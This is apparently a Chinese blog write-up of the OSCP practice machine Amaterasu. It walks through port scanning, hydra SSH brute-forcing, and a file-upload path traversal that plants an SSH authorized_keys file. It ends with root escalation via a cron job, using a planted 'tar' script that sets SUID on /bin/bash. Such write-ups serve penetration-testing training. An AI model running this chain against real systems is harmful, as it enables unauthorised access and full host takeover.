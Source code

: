 # 原创
：  从WEB到内网&&文件上传&&SSH公私钥免密登录&&Cron job提权--------打靶经验分享

# 从WEB到内网&amp;&amp;文件上传&amp;&amp;SSH公私钥免密登录&amp;&amp;Cron job提权--------打靶经验分享

OSCP------Amaterasu<br/> 今天来打一个OSCP的靶机Amaterasu，难度中等，包含了端口探测，文件上传，ssh公私钥实现免密登录，定时任务提权等等…靶场难度中等，需要收集两个flag，一个flag低权限shell就可以获取，第二个要提权后才可以获取。希望大家能有所收获。

### 启动环境：

启动VPN：`openvpn universal.ovpn`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/a5f31450fe344a09bd677b9f45492d95.png"/>

攻击机IP为: 192.168.45.201<br/> 启动目标靶机：<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/3c747500936d418c8554c65d870e910e.png"/>

目标靶机IP为：192.168.248.249

### 信息收集

**1.端口**<br/> nmap扫描端口：<br/> `nmap --min-rate 10000 -p- 192.168.248.249`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/10061e57e4eb467494d7eff3281f52da.png"/>

探测到了：21,22,111,139,443,445,2049,10000,25022,33414,40080 端口<br/> 端口服务探测：<br/> `nmap -p 21,22,111,139,443,445,2049,10000,25022,33414,40080 -sV 192.168.248.249`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/dad22e197ca540dcab22aa02abc0452c.png"/>

发现目标主机准确开放的端口为：<br/> 21-ftp、25022-ssh、33414-unknown、40080-http

**2.端口测试**

**2.1** 21-ftp端口<br/> 先试试直接ftp匿名登录连接过去（ftp匿名登录用户名为anonymous，密码为email或者为空）。<br/> `ftp 192.168.248.249`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/fca425a4d848496d8bace0e6e11032cc.png"/>

空密码直接登陆成功。登录后看一下有什么文件，有什么线索（binary 以二进制模式传输文件，保证文件完整）。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/62203028770b4d0ca45c50a2b4daf176.png"/>

什么都没有，21端口结束。

**2.2** 25022-ssh<br/> 直接尝试弱口令登录：<br/> `ssh 192.168.248.249 -p 25022`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/b3ec155bc0fe4ffe9c06891a713124b3.png"/>

尝试了几个都失败了。那就直接上ssh爆破，字典用msf的。<br/> `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 -vV 192.168.248.249 ssh -s 25022`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/8364214bea634616a09b4df5709272ad.png"/>

等待ing。

**2.3** 33414-unknow<br/> 刚才nmap出来的33414显示是unknown，详细再探测一下：<br/> `nmap -sT -sV -O -sC -p 33414 192.168.248.249`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/b2f8b89cdfaf4efa85e119900fc5390c.png"/><br/> 看到了html代码，那就浏览器访问一下192.168.248.249:33414

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2066d5573474455db7f5fd42487cb6b1.png"/><br/> 无法访问哇，再倒回去看看。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/ce1cb93881e442b49383057115cf7e11.png"/><br/> Werkzeug/2.2.3 发现了这个服务。查了一下，Werkzeug是一个Python的WSGI工具库，用于构建Web应用程序和框架。Werkzeug提供了一套灵活的工具，用于处理HTTP请求和响应、路由请求、处理会话、进行调试等等。<br/> 还是继续用dirsearch扫一下把。<br/> `dirsearch -u http://192.168.248.249:33414/`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/feafa1f3520f4c4281766a6cbdc8b8f5.png"/>

发现了help和info。<br/> 访问一下http://192.168.248.249:33414/help<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/04a029d3f7dd4c5ea9ac54bcbf7728c2.png"/><br/> 这大家第一眼关注的应该是文件上传了。<br/> 那就等下试试这个接口。还有一个40080端口。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20440b9500e443b7963e9ab72a186945.png"/><br/> info里面是一些无用的信息。

**2.4** 40080端口http

http服务直接访问http://192.168.248.249:40080<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/10f07d2f523f4a81b00fdbcb6a2a5259.png"/><br/> Mozilla is cool！ 没什么用

### 攻击阶段

看一下/file-upload接口<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/d23088e540a0496bad035d23a7ea7379.png"/><br/> 方式不被允许。那就换成POST 试一下curl<br/> `curl -X POST http://192.168.248.249:33414/file-upload`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/12d61b0656364a74aa4cb2cd220bd7b8.png"/><br/> 看来是要需要有上传的文件。curl通过POST上传文件。<br/> `touch shell.php`<br/> `curl -X POST -F file="@/home/czy1874396671/shell.php.txt" -F filename=shell.php http://192.168.248.249:33414/file-upload`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2ccd74008d8144a0a452320a11ff2c26.png"/><br/> 看来想上传一句话php行不通哇。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/09992ef2065d430ba738c1d3ee1cbce6.png"/><br/> 改成了允许上传的文件格式上传成功<br/> 查看了一下文件上传的位置，发现是在/tmp目录下。<br/> `curl http://192.168.248.249:33414/file-list?dir=/tmp`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/17c7275d75844c6cab12919280d90eb0.png"/><br/> 现在可以上传文件了，该怎么利用呢。试一下是否可以上传目录穿越。<br/> `curl -X POST -F file="@/home/czy1874396671/shell.php.txt" -F filename=../shell.php http://192.168.248.249:33414/file-upload`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/8db0376f296f40d28e44963c1f656c3b.png"/><br/> 500,应该是没有权限。试一下路径读取，找一下普通用户能够有权限写入的地方。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/7f60d6c4bcdc4321ac1513e487826fc4.png"/><br/> 找到了一个alfredo的用户，目录下面存在.ssh文件，这里试一下能不能上传。<br/> `curl -X POST -F file="@/home/czy1874396671/shell.php.txt" -F filename=/home/alfredo/.ssh/shell.php http://192.168.248.249:33414/file-upload`

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/3cd056a8356148aab599ae341db622c0.png"/><br/> 成功上传，有alfredo这个用户，创建一个shell.php.txt的公钥authorized_keys，上传之后可以进行密钥ssh登录。使用ssh-keygen生成公钥。<br/> `ssh-keygen -t rsa`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/c5214793f26f46feb7db9f21ec3155c0.png"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/34aa1c1d7f74425d8bb6663382502bc2.png"/><br/> 先重命名一下，便于上传。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/aa3a18e1ab4a4e04be1836c15fc0a87c.png"/><br/> `curl -X POST -F file="@/home/czy1874396671/shell.php.txt.pub.txt" -F filename=/home/alfredo/.ssh/authorized_keys http://192.168.248.249:33414/file-upload`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/3396ec170045456f97771d8e7905feb2.png"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/22c7f0ce0fd04708a5fb272cd3b41c48.png"/><br/> 非常奈斯。

### 内网渗透

现在有了文件的公钥，使用文件的私钥文件进行ssh登录，之前的ssh25022端口。<br/> `ssh -i shell.php.txt alfredo@192.168.248.249 -p 25022`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/92db940aecb8405e97e14e4e1361b126.png"/><br/> 有shell了，牛牛牛。<br/> 找flag：<br/> find / -name local.txt<br/> cat /home/alfredo/local.txt<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/852add03f0bc482eb543c6b528545bef.png"/><br/> flag1：18cc76acd2212102be9e0d61409fd62d

### 提权

1.sudo提权<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/78ac72f30a154bbd80cc3db8eebd8c43.png"/><br/> 需要密码。

2.suid提权<br/> `find / -perm -u=s -type f 2&gt;/dev/null`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/4b538bdebba6486da08c68161012dd5e.png"/><br/> 没有可提权的东西。<br/> 3. -suid-getcap提权<br/> `/usr/sbin/getcap -r / 2&gt;/dev/null`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/09474abe5a064bce8cc58d2ccf685f56.png"/><br/> 没有东西。

4.Cron job提权，寻找定时任务并修改进行提权<br/> cat /etc/crontab<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/16418c53f8bc4d71b8361839483d36e2.png"/><br/> 这个任务会每分钟执行一次 /usr/local/bin/backup-flask.sh 脚本。<br/> 看一下有没有修改权限。<br/> `ls -al cat /usr/local/bin/backup-flask.sh`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/5ba32051d84546fd863dcaf45ae8aa69.png"/>

再查看它的内容：<br/> `cat /usr/local/bin/backup-flask.sh`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/a87adfc8234241378573abe5f4e9fea2.png"/><br/> 这个脚本的主要功能是将 /home/alfredo/restapi 目录中的文件和子目录打包成一个压缩文件 /tmp/flask.tar.gz。<br/> 因为环境可控，所以我们自己做一个tar的命令进行任务计划帮助提权。

查看bash权限<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2654defef22b465a8fdddc480bec72a7.png"/><br/> 写一个提bash权命令 增加suid<br/> `echo "chmod +u+s /bin/bash" &gt; tar`<br/> `cat tar`<br/> 增加执行权限<br/> `chmod +x tar`<br/> `cat tar`<br/> 等待一分钟，此时已经成功提升权限<br/> ls -al /bin/bash 即可看到 -rwxrwxrwx. 1 root root 1390080 Jan 25 2021 /bin/bash<br/> 直接bash -p即可完成提权，作者因为靶场时间已经到期，没来得及截图哈哈哈。<br/> 获取flag2：<br/> cat /root/proof.txt
